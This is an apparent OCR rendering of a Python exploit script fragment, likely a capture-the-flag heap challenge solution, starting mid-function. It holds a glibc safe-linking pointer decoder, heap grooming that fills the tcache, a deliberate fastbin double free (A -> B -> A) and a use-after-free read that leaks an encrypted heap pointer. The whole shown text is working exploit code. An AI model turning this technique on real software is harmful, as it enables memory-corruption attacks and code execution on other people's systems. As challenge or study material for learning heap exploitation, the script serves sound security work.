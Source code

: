 ```python

&nbsp;   plain = 0



&nbsp;   for i in range(1, 6):

&nbsp;       bits = 64-12*i

&nbsp;       if bits < 0:

&nbsp;           bits = 0

&nbsp;       plain = ((cipher ^ key) >> bits) << bits

&nbsp;       key = plain >> 12



&nbsp;   return plain



create(7, 0x70, b'a') 



for _ in range(7):

&nbsp;   create(9, 0x60, b'a')

&nbsp;   delete(9)



create(0, 0x60, b'a')  

create(1, 0x60, b'b')  



delete(0)

# fastbin: A -> NULL



delete(1)

# fastbin: B -> A -> NULL



delete(0)

# fastbin: A -> B -> A 



leak = read_note(9)

cipher = u64(leak.ljust(8, b'\x00'))

```